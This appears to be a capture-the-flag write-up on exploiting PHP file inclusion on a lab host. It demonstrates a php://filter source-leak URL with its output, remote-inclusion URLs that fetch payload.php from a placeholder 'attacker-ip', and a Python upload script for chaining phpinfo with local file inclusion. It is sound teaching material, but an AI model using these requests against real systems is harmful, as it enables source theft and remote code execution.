

# 12 - Tips and Tricks


# Php source code leak

Php source code can be leaked with this url **php://filter/convert.base64-encode/resource=index.php**.

In our case, the url would be 

```sql
http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=index.php
```

Here is the output to our request
```
PGh0bWw+Cjxib2R5Pgo8aDE+VGVtcG9yYXJ5IHdlYnNpdGUgdG8gdGVzdCBsb2NhbCAucGhwIHNjcmlwdHMuPC9oMT4KU2l0ZXMgdG8gYmUgdGVzdGVkOiBpbmkucGhwLCBpbmZvLnBocCwgbGlzdGZpbGVzLnBocCwgcGhwaW5mby5waHAKCjwvYm9keT4KPC9odG1sPgoKPGZvcm0gYWN0aW9uPSIvYnJvd3NlLnBocCIgbWV0aG9kPSJHRVQiPgoJU2NyaXB0bmFtZTogPGlucHV0IHR5cGU9InRleHQiIG5hbWU9ImZpbGUiPjxicj4KCTxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJTdWJtaXQiPgo8L2Zvcm0+Cg==
```

# Remote file inclusion

RFI is another cool way to leverage these kind of vulnerabilities. if a file can remotely be included in browser.php that is basically remote code execution.

```sql
http://10.10.10.84/browse.php?file=http://attacker-ip/payload.php
```

Unfortunately this is disabled on the host, however other protocols can also be used  in this scenerio, ftp for example. Unlucky for us ftp is also disabled.

```sql
http://10.10.10.84/browse.php?file=ftp://attacker-ip/payload.php
```


# Phpinfo File Upload
There is also a file upload on phpinfo, we can chain this vulnerability with local file inclusion for remote code execution




# File upload through a python script

```py
#!/usr/bin/env python3

import requests

url = "http://10.10.10.84/phpinfo.php"
files = {'file': ('payload', "<?php echo 'tips & tricks'; ?>")}
r = requests.post(url, files=files)
print(r.text)
```

# Payload in the output of our post request
since we know the address of the file we can include this file now in browser.php
```
<tr><td class="e">_FILES["file"]</td><td class="v"><pre>Array                          
(       
    [name] =&gt; payload
    [type] =&gt; 
    [tmp_name] =&gt; /tmp/phpinFZ1l
    [error] =&gt; 0
    [size] =&gt; 13                                                                                                                                                                                                                          
)   
```

This file will get deleted as soon as it's loaded  but of course there is a race condition here.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py


